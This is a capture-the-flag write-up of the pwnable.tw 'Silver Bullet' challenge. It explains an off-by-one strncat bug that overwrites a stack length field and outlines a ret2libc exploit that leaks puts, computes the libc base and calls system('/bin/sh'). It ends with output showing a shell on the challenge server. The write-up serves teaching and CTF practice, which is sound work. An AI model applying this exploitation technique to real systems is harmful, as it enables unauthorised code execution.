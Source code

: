 # Silver Bullet

...Is an interesting pwnable from "pwnable.tw".                           
I decided to post a wp as i found it pretty damn fun.                 
We are given a 32bit binary and a libc.
```console
root@kali:~/CTF/pwnable_tw# checksec ./silver_bullet
[*] '/root/CTF/pwnable_tw/silver_bullet'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
## The binary:
The binary is without PIE and stack canary but with full relro and NX.
                       
You are tasked with fighting a werewolf               
(winning won't get you a shell, it's only a cover story).          
                       
#### You have 4 options:
1. Create a silver bullet by describing it              
2. Powering up your bullet by appending a description              
3. Fight the werewolf                   
4. Quit the app               
                  
## Under the scenes:
The bullet is just a buffer on the stack of length 0x30 which is memset to all zeros.                  
The bullet's 'power' is really just the result of strlen of the buffer.           
It just so happens that the bullet's power is stored on the stack right after the bullet buffer.            
                     
                          
### Creating a bullet:
```console
+++++++++++++++++++++++++++
       Silver Bullet       
+++++++++++++++++++++++++++
 1. Create a Silver Bullet 
 2. Power up Silver Bullet 
 3. Beat the Werewolf      
 4. Return                 
+++++++++++++++++++++++++++
Your choice :1
Give me your description of bullet :it's a damn nice bullet
Your power is : 23
```
Creating a bullet is filling the buffer of 0x30 length with user input,                     
And updating the length variable that is on the stack next to the bullet buf:           
```nasm
mov     eax, [ebp+bullet_buf]
push    30h
push    eax
call    read_input ; read input to bullet buffer
add     esp, 8
mov     eax, [ebp+bullet_buf]
push    eax
call    strlen ; calculate it's length
add     esp, 4
mov     [ebp+len], eax
...
mov     eax, [ebp+bullet_buf]
mov     edx, [ebp+len]
mov     [eax+30h], edx ; place the length (or 'power' i guess) immediately after the buffer
```
                  
                   
### Power up the bullet:
```console
+++++++++++++++++++++++++++
       Silver Bullet       
+++++++++++++++++++++++++++
 1. Create a Silver Bullet 
 2. Power up Silver Bullet 
 3. Beat the Werewolf      
 4. Return                 
+++++++++++++++++++++++++++
Your choice :2
Give me your another description of bullet :it's also pink
Your new power is : 37
Enjoy it !
```
                       
Powering up the bullet is merely adding a description with strncat.            
               
The length of the max description to add is calculated such:         
added description length = 0x30 - current_power             
(That is if the power level that is stored on the stack is less then 0x30)           
```nasm
mov     eax, [ebp+bullet_buf]
mov     eax, [eax+30h] ; current power
mov     edx, 30h
sub     edx, eax
mov     eax, edx ; leftover length = 0x30 - current power
push    eax             
lea     eax, [ebp+local_buf]
push    eax
call    read_input ; read an addition description
add     esp, 8
mov     eax, [ebp+bullet_buf]
mov     eax, [eax+30h]
mov     edx, 30h
sub     edx, eax
mov     eax, [ebp+bullet_buf]
push    edx
lea     edx, [ebp+local_buf]
push    edx
push    eax
call    strncat ; append it to the bullet buf
add     esp, 0Ch
lea     eax, [ebp+local_buf]
push    eax
call    strlen ; calculate new 'power'
add     esp, 4
mov     edx, eax
mov     eax, [ebp+bullet_buf]
mov     eax, [eax+30h]
add     eax, edx
mov     [ebp+new_power], eax
push    [ebp+new_power]
push    offset aYourNewPowerIs ; "Your new power is : %u\n"
call    printf
add     esp, 8
mov     eax, [ebp+bullet_buf]
mov     edx, [ebp+new_power]
mov     [eax+30h], edx ; place the new power after the bullet buffer.
```
                
### Fighting the werewolf:
```console
Your choice :3
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483647
>--------------------------------<
Try to beat it .....
Sorry ... It still alive !!

...

Your choice :3
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483610
>--------------------------------<
Try to beat it .....
Sorry ... It still alive !!
```
             
Fighting the werewolf is just subtracting your power from the werewolf HP.                  
When the werewolf dies, main returns.                          
## Bug:
There is a subtle off-by-one bug caused by strncat.             
From strncat's man page:              
> "If src contains n or more bytes, strncat() writes n+1 bytes to dest (n from src plus the terminating null byte).
> Therefore,the size of dest must be at least strlen(dest)+n+1"                  
                   
And this is the exact bug in play here. (probably shouldv'e read the man page eh?)         
                 
Because of this, if our appended description and original description, when added, are of exactly 0x30 length, the power/length buffer on the stack after it is overwritten with 0 (terminating null-byte) and allows to add 0x30 more characters, thus corrupting the stack.                
         
## Exploitation:
Because of the NX but no PIE or stack canary the exploit path is relatively clear:           
1.Exploit main, construct a rop chain prints the virtual address of a libc function (I chose puts).         
2.Calculate the libc base, and from there calculate the address of "/bin/sh" inside libc and of the system function.           
3.Call main again, and exploit it once again.              
4.Call system("/bin/sh")              
                
```console
root@kali:~/CTF/pwnable_tw# python3 sploit.py 
[+] Opening connection to chall.pwnable.tw on port 10103: Done
[*] '/root/CTF/pwnable_tw/silver_bullet'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
puts addr: 0xf7582140
libc base: 0xf7523000
[*] Switching to interactive mode
Sorry ... It still alive !!
Give me more power !!
+++++++++++++++++++++++++++
       Silver Bullet       
+++++++++++++++++++++++++++
 1. Create a Silver Bullet 
 2. Power up Silver Bullet 
 3. Beat the Werewolf      
 4. Return                 
+++++++++++++++++++++++++++
Your choice :>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 1052688107
>--------------------------------<
Try to beat it .....
Oh ! You win !!
$ cd home
$ ls
silver_bullet
$ cd silver_bullet
$ ls
flag
run.sh
silver_bullet
$ cat flag
FLAG{*REDACTED*}
```
